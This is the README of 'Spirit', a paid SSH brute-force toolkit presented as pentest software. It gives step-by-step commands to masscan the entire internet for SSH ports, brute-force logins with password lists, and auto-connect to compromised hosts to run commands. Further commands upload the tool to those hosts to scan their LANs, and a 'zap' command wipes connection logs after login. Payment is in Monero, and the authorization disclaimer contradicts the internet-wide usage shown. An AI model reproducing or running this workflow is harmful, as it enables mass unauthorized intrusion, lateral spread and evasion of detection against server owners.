 # Spirit - Network Pentest Tools
> We believe in making the internet a safe environment where security is taken seriously as a priority and forcing out of the market bad actors like the admins allowing password authentication over such a critical cog of our infrastructure. Spirit is designed to root out these weeds (pun intended).

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)

```bash
$ wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
$ curl -OL https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
```

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Quick Start
```bash
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
tar xvf spirit.tgz
./spirit --help
./go.sh 192 22 50000
```

<p align="center">  <a href="https://t.me/spiritNPT)><img width="160" height="50" src="https://i.imgur.com/N7AK7XY.png"></a></p>

## Autobrute with zones (requires license)
```bash
# Create zone.lst containing IP addresses in CIDR notation
$ cat >zone.lst<< EOF
192.168.0.0/16
172.16.0.0/12
10.0.0.0/8
EOF

# autobrute will generate collision-free(non-repeating) random ports
# scan and brute them over and over -- forever!
./spirit autobrute
```

## Local network demo
[![asciicast](https://asciinema.org/a/645079.svg)](https://asciinema.org/a/645079?autoplay=true&loop=true)

## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/spiritNPT)

## Upgrade Spirit automatically
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
Spirit NPT (v1.30) upgrade by 24 Mar 24 00:00 UTC
HINT: Use `./spirit zap` to clean connection logs after you login via SSH
rlimit soft [1048576] hard [1048576]
INFO loaded b.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
INFO randomized hosts
INFO block [true]
INFO timeout [5s]
INFO threads [1024]
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
Results
 |- found.ssh # Prepared SSH command
 |- found.login # Successful USER:PASS combinations
 |- found.lst # Syntax for autossh tool
 |- found.errors # SSH connection error statistics
Hosts[26803] Bruted[4000] Blocked[19803] Found[3000]

# If you want to go Faster try blocking bad hosts
./spirit brute --block=true

# Connect to all your found hosts automatically & run commands.
$ ./spirit autossh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit autossh --upload ./spirit --command '/tmp/spirit scan --lan'
```

## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license which starts at $1/day/server.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy

Payment-flow Support @ https://t.me/spiritNPT
Pricing model: $1 / Server / Day

┃ How many servers?> 3

┃ How many days?> 30

┃ Would you like 10% off using a referral code?
┃
┃   Yes     No
```

> if you encounter any issues w/ the payment, please reach out to us on [telegram](https://t.me/spiritNPT) or open an [issue](https://github.com/theaog/spirit/issues)

# Support our development

## Help us spread the word about Spirit!
Refer Spirit in your community or work environment and earn up to 30% in Referral Fees. \
Start here: `$ ./spirit partner` || generate your Referral Code which grants 10% off on any Spirit plan.

## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

> [!NOTE]
Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

> [!IMPORTANT]
> This tool should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it on your own systems and/or with the system owner's permission. Usage of any tools in this repository for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused.
